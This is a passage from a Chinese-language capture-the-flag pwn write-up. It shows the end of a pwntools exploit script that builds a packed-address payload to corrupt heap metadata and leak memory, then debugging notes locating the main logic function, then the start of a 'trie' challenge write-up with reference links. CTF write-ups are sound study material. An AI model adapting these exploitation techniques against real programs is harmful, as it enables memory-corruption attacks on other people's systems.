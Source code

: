 ```python
	ru("index >")
	sl(str(index))
def show(index,offset,length):
	menu("S")
	ru("index >")
	sl(str(index))
	ru("offset >")
	sl(str(offset))
	ru("length > ")
	sl(str(length))

add(0x8,"chuwei11")
add(0x8,"chuwei22")
#mydbg()
offset=0x0000000000501c68
payload=b'a'*8+p64(0x0000001300000000)+p64(0x00501ce000501ca8)+p64(0x0000001b00000000)+p64(offset)+p64(0x200)
edit(0,0,0x345231,payload)
show(1,0,0x50)
p.interactive()
```

#### 后记

查看backtrace，发现 #11和#13 是wtoa 中的代码，在#13下断点

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111753.png)

当执行到这里时，会发现程序进入了add函数的逻辑，且程序存在异步，所以我们在下一条汇编指令下断点

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111754.png)

发现其确实执行了add函数的逻辑，因此猜测0x7ff7d8b9b464所在函数就是主要逻辑

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111755.png)

算出偏移，在ida 里面查看在function 17函数中

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111756.png)

![Untitled](https://cdn.jsdelivr.net/gh/chuw3i/picodemo@main/img/202505262111757.png)

那么经过调试也可以发现function 17为主要逻辑函数。

### trie

参考链接：https://blog.xmcve.com/2023/12/18/%E5%BC%BA%E7%BD%91%E6%9D%AF2023-Writeup/#title-13

https://www.xp0int.top/posts/2023/12/18/2023-%E5%BC%BA%E7%BD%91%E6%9D%AF-Quals-Writeup-By-Xp0int/#26-trie

简单说一下本地的逻辑，实现了一个简单的路由表：

- add 功能输入两个ip，每次遇到新ip会插入分支，并且其节点值赋值为tot，然后根据trie中的值，将ip2存放在对应下标的end数组中
- show 功能，查找ip 对应的下一跳ip值
- get flag ，将flag 存储在secret 处
